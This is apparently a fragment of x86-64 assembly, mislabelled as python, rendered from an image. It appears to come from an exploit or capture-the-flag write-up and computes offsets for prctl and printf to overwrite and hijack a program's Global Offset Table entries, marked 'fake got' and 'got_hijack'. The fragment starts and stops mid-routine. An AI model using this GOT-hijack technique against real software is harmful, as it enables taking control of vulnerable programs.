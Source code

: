 ```python=
    add r13, 0x1014
    jmp write_got
L3:     /* prctl */
    sub r13, 0x4058
    add r13, 0x1A2E
    jmp write_got
L4:     /* printf */
    sub r13, 0x4028
    add r13, 0x1140
    jmp write_got
    

write_got:
    mov rax, 0x18    /* fake got */
    add rax, r9
    mov r11, 0x000306
    call push_str
    call pipe
    nop
    nop
    nop
    nop
 
    mov rax, r14    /* exit got */
    mov r11, 0x000602
    call push_str
    call pipe
    shr r14, 8
    inc r9
    cmp r9, 8
    jne write_got
    
    /**************************************************************************/
    /* overwrite GOT */
    /* rebase */
    mov rax, 0x18    /* fake got */
    mov r11, 0x000306
    call push_str
    call pipe

    /* calculate offset */
    and r15, 0xffffffffffffff00
    add r15, 0x18
    sub r15, r12
    shr r15, 3
    add r15, 33
    mov rax, r15
    call hex2str
    xor r11, r11
    xor rax, rax
    add al, bl
    shl rax, 8
    add al, bh
    shl rax, 8
    shr rbx, 16
    add al, bl
    mov r11, rax
    mov r14, r11

    xor r9, r9
got_hijack:
    mov rax, r10    /* fake got */
    and rax, 0xff
```